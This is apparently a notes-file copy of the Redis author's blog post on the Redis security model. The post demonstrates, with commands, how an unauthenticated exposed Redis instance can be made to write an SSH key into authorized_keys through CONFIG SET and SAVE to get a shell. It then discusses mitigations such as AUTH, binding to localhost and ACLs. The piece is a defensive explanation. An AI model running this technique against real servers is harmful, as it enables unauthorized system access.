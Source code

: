 #+TAGS:


* Database
** Redis
*** File upload
URL: http://antirez.com/news/96
IMPORTANT EDIT: Redis 3.2 security improved by implementing protected mode. You can find the details about it here: https://www.reddit.com/r/redis/comments/3zv85m/new_security_feature_redis_protected_mode/

From time to time I get security reports about Redis. It’s good to get reports, but it’s odd that what I get is usually about things like Lua sandbox escaping, insecure temporary file creation, and similar issues, in a software which is designed (as we explain in our security page here http://redis.io/topics/security) to be totally insecure if exposed to the outside world.

Yet these bug reports are often useful since there are different levels of
security concerning any software in general and Redis specifically. What you can
do if you have access to the database, just modify the content of the database itself
or compromise the local system where Redis is running?

How important is a given security layer in a system depends on its security model.
Is a system designed to have untrusted users accessing it, like a web server
for example? There are different levels of authorization for different kinds of
users?

The Redis security model is: “it’s totally insecure to let untrusted clients access the system, please protect it from the outside world yourself”. The reason is that, basically, 99.99% of the Redis use cases are inside a sandboxed environment. Security is complex. Adding security features adds complexity. Complexity for 0.01% of use cases is not great, but it is a matter of design philosophy, so you may disagree of course.

The problem is that, whatever we state in our security page, there are a lot of Redis instances exposed to the internet unintentionally. Not because the use case requires outside clients to access Redis, but because nobody bothered to protect a given Redis instance from outside accesses via fire walling, enabling AUTH, binding it to 127.0.0.1 if only local clients are accessing it, and so forth.

Let’s crack Redis for fun and no profit at all given I’m the developer of this thing
===

In order to show the Redis “security model” in a cruel way, I did a quick 5 minutes experiment. In our security page we hint at big issues if Redis is exposed. You can read: “However, the ability to control the server configuration using the CONFIG command makes the client able to change the working directory of the program and the name of the dump file. This allows clients to write RDB Redis files at random paths, that is a security issue that may easily lead to the ability to run untrusted code as the same user as Redis is running”.

So my experiment was the following: I’ll run a Redis instance in my Macbook Air, without touching the computer configuration compared to what I’ve currently. Now from another host, my goal is to compromise my laptop.

So, to start let’s check if I can access the instance, which is a prerequisite:

$ telnet 192.168.1.11 6379
Trying 192.168.1.11...
Connected to 192.168.1.11.
Escape character is '^]'.
echo "Hey no AUTH required!"
$21
Hey no AUTH required!
quit
+OK
Connection closed by foreign host.

Works, and no AUTH required. Redis is unprotected without a password set up, and so forth. The simplest thing you can do in such a case, is to write random files. Guess what? my Macbook Air happens to run an SSH server. What about trying to write something into ~/ssh/authorized_keys in order to gain access?

Let’s start generating a new SSH key:

$ ssh-keygen -t rsa -C "crack@redis.io"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/antirez/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
f0:a1:52:e9:0d:5f:e4:d9:35:33:73:43:b4:c8:b9:27 crack@redis.io
The key's randomart image is:
+--[ RSA 2048]----+
|          .   O+.|
|       . o o..o*o|
|      = . + .+ . |
|     o B o    .  |
|    . o S    E . |
|     .        o  |
|                 |
|                 |
|                 |
+-----------------+

Now I’ve a key. My goal is to put it into the Redis server memory, and later to transfer it into a file, in a way that the resulting authorized_keys file is still a valid one. Using the RDB format to do this has the problem that the output will be binary and may in theory also compress strings. But well, maybe this is not a problem. To start let’s pad the public SSH key I generated with newlines before and after the content:

$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt

Now foo.txt is just our public key but with newlines. We can write this string inside the memory of Redis using redis-cli:

~~~~~~~~~~~~~~~~~~~
NOTE: The following steps were altered in trivial ways to avoid that script kiddies cut & paste the attack, because from the moment this attack was published several Redis instances were compromised around the globe.
~~~~~~~~~~~~~~~~~~~

$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dbfilename "backup.rdb"
OK
192.168.1.11:6379> save
OK
(Ctrl+C)

$ redis-cli -h 192.168.1.11 echo flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit

Looks good. How to dump our memory content into the authorized_keys file? That’s
kinda trivial.

$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get dir
1) "dir"
2) "/Users/antirez/.ssh"
192.168.1.11:6379> config set dbfilename "authorized.keys"
OK
192.168.1.11:6379> save
OK

At this point the target authorized keys file should be full of garbage, but should also include our public key. The string does not have simple patterns so it’s unlikely that it was compressed inside the RDB file. Will ssh be so naive to parse a totally corrupted file without issues, and accept the only sane entry inside?

$ ssh -i id_rsa antirez@192.168.1.11
Enter passphrase for key 'id_rsa':
Last login: Mon Nov  2 15:58:43 2015 from 192.168.1.10
~ ➤ hostname
Salvatores-MacBook-Air.local

Yes. I successfully gained access as the Redis user, with a proper shell, in like five seconds. Courtesy of a Redis instance unprotected being, basically, an on-demand-write-this-file server, and in this case, by ssh not being conservative enough to deny access to a file which is all composed of corrupted keys but for one single entry. However ssh is not the problem here, once you can write files, even with binary garbage inside, it’s a matter of time and you’ll gain access to the system in one way or the other.

How to fix this crap?
===

We say Redis is insecure if exposed, and the security model of Redis is to be accessed only by authorized and trusted clients. But this is unfortunately not enough. Users will still run it unprotected, and even worse, there is a tension
between making Redis more secure *against* deployment errors, and making Redis
easy to use for people just using it for development or inside secure environments
where limits are not needed.

Let’s make an example. Newer versions of Redis ship with the example redis.conf
defaulting to “bind 127.0.0.1”. If you run the server without arguments, it will
still bind all interfaces, since I don’t want to annoy users which are likely
running Redis for development. To have to reconfigure an example server just to
allow connections from other hosts is kinda a big price to pay, to win just
a little bit of security for people that don’t care. However the example redis.conf
that many users use as a template for their configuration, defaults to binding the
localhost interface. Hopefully less deployments errors will be made.

However this measures are not very effective, because unfortunately what most
security unaware users will do after realizing that binding 127.0.0.1 is preventing
them from connecting clients from the outside, is to just drop the bind line and
restart. And we are back to the insecure configuration.

Basically the problem is finding a compromise between the following three things:

1. Making Redis accessible without annoyances for people that know what they do.

2. Making Redis less insecure for people that don’t know what they do.

3. My bias towards “1” instead of “2” because RTFM.

Users ACLs to mitigate the problem
===

One way to add redundancy to the “isolation” concept of Redis from the outside world
is to use the AUTH command. It’s very simple, you configure Redis in order to
require a password, and clients authenticate via the AUTH command by using the
configured password. The mechanism is trivial: passwords are not hashed, and are
stated in cleartext inside the configuration file and inside the application, so
it’s like a shared secret.

While this is not resistant against people sniffing your TCP connections
or compromising your application servers, it’s an effective layer of security
against the obvious mistake of leaving unprotected Redis instances on the internet.

A few notes about AUTH:

1. You can use Redis as an oracle in order to test many passwords per second, but the password does not need to be stored inside a human memory, just inside the Redis config file and client configurations, so pick a very large one, and make it impossible to brute force.

2. AUTH is sent when the connection is created, and most sane applications have persistent connections, so it is a very small cost to pay. It’s also an extremely fast command to execute, like GET or SET, disk is not touched nor other external system.

3. It’s a good layer of protection even for well sandboxed environments. For an error an instance may end exposed, if not to the internet, at least to clients that should not be able to talk with it.

Maybe evolving AUTH is the right path in order to gain more security, so
some time ago I published a proposal to add “real users” in Redis: https://github.com/redis/redis-rcp/blob/master/RCP1.md

This proposal basically adds users with ACLs. It’s very similar to AUTH in the way it works and in the speed of execution, but different users have different capabilities. For example normal users are not able to access administrative commands by default, so no “CONFIG SET dir” for them, and no issues like the exploit above.

The default user can yet run the normal commands (so the patches people sent me about Lua sandboxing, that I applied, are very useful indeed), and an admin user must be configured in order to use administration commands. However what we could do to make Redis more user friendly is to always have an “admin” user with empty password which is accepted if the connection comes from the loopback interface (but it should be possible to disable this feature).

ACLs, while not perfect, have certain advantages. When Redis is exposed to the internet in the proper way, proxied via SSL, to have an additional layer of access control is very useful. Even when no SSL is used since we have just local clients, to protect with more fine grained control what clients can do has several advantages. For instance it can protect against programming or administration errors: FLUSHALL and FLUSHDB could be not allowed to normal users, the client for a Redis monitoring service would use an user only allowing a few selected commands, and so forth.

Users that don’t care about protecting their instances will stil have a database which is accessible from the outside, but without admin commands available, which still makes things insecure from the point of view of the data contained inside the database, but more secure from the point of view of the system running the Redis instance.

Basically it is impossible to reach the goal of making Redis user friendly by default and resistant against big security mistakes of users spinning an instance bound to a public IP address. However fixing bugs in the API that may allow to execute untrusted code with the same privileges of the Redis process, shipping a more conservative default configuration, and implementing multiple users with ACLs, could improve the current state of Redis security without impacting much the experience of normal Redis users that know what they are doing.

Moreover ACLs have the advantage of allowing application developers to create
users that match the actual limits of specific clients in the context of the
application logic, making mistakes less likely to create big issues.

A drawback of even this simple layer of security is that it adds complexity,
especially in the context of replication, Redis Sentinel, and other systems that
must all be authentication aware in order to work well in this new context. However it’s probably an effort that must be incrementally done.

* Lecture
* Tutorial
* Books
* Links

